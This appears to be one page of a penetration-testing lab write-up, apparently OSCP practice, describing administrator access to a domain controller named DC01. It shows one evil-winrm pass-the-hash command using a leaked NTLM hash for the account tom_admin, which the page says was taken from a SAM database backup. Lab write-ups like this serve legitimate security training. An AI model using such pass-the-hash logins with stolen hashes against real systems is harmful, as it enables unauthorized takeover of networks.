

---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# DC01

Initial access is provided as `OSCP\tom_admin` over WinRM. His [hash was leaked](ms02.md#sam-credential-dump) from a backup containing the SAM database on `MS02`:


```bash
evil-winrm -i dc01.oscp.exam -u 'tom_admin' -H 4979d69d4ca66955c075c41cf45f24dc
```


<figure><figcaption><p>Access</p></figcaption></figure>

Since `tom_admin` is a member of the `Administrators` group on `DC01` I can read the `proof.txt` file and I am finished.
